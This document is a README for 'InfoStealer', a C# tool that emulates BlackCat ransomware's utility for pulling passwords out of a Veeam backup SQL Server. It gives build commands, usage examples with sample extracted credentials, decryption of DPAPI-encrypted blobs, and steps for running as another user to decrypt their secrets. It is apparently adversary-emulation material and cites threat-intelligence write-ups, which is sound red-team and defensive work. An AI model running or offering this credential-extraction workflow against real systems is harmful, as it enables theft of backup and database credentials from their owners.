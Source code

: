 ## InfoStealer

This C# utility emulates BlackCat's custom utility to query Veeam backup SQL Server to extract passwords.

## Building

* Leverage CMake to build the executable in the project's root directory.
```
$> cmake -B .
```

*Note, CMakeLists is wrapping dotnet commands to build the CSharp application*


This command will generate a debug and release build. You will want the release build,
this is located at ```infostealer\sqlsharp\bin\x64\Release\net6.0-windows\win-x86\publish```

Build with dotnet
```
dotnet restore InfoStealer.sln

dotnet publish InfoStealer.sln -r win-x86 -p:PlatformTarget=x86 -p:PublishSingleFile=true --sc -c Release -p:IncludeNativeLibrariesForSelfExtract=true
```

## Execution

A DPAPI blob can be generated using the `gen_dpapi_blob.ps1` script. The script takes 1 argument
`-String` and encrypted the provided string with DPAPI.
Example:
```
./gen_dpapi_blob.ps1 -String Sup3rS3cr3tP@ssword1!
```


* Query local MS SQL server (**localhost**) with specific username (**testlogin**), and password (**Password**)

```
C:\> .\infostealer.exe dpapi localhost testlogin Password*

test-1, abc123, test-1 user
test-2, hunter2, test-2 user
test-3, iloveu, test-3 user
test-4, qwerty, test-4 user
test-5, password, test-5 user
```

* Decrypt a provide dpapi base64 encoded blob:
```
InfoStealer.exe string AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAZGBrWVmdPka5Sod9PXlnJgAAAAACAAAAAAAQZgAAAAEAACAAAAAPXaR6tzM6G7mdC2NnJ7u2On2rDD1FzQdBKcaf1uhWkwAAAAAOgAAAAAIAACAAAAD8ZUG03DrI9ncxu4Csr6GYhu7vnO2wEi8ZscVSK+qL2RAAAABoGWkFNCJFa1oAlN63k+I/QAAAABx0tHePfk99nrSpOqsbmOaAR8b95SOCBRZKbOnsOaDUcVjMWAeQ2AptPJz2HtfXrhSPEHHbvD/H8mG4gr6yaB8=
```

* Execute Help menu
```
C:\> infostealer.exe -h
[help] sqlsharp.exe <type> <SQL Database Source> username password
         Ex: sqlsharp.exe dpapi localhost veemadmin Password*
         Ex: sqlsharp.exe string <base64 encoded dpapi blob>
         type: base64, dpapi, string; (a string is a base64 encoded dpapi blob passed directly in)
```

### Executing under another user context
If the passwords are DPAPI encrypted using another users password, you can run the applcation
using that users context as long as you have the users password:
Open a command prompt, then enter the following:
```
runas /user:<USERNAME> cmd

InfoStealer.exe string AQAAAN...
```

## CTI
* [Noberus Ransomware: Darkside and BlackMatter Successor Continues to Evolve its Tactics](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-ransomware-ttps)

* [Decrypting VEEAM Passwords](https://blog.checkymander.com/red%20team/veeam/decrypt-veeam-passwords/)
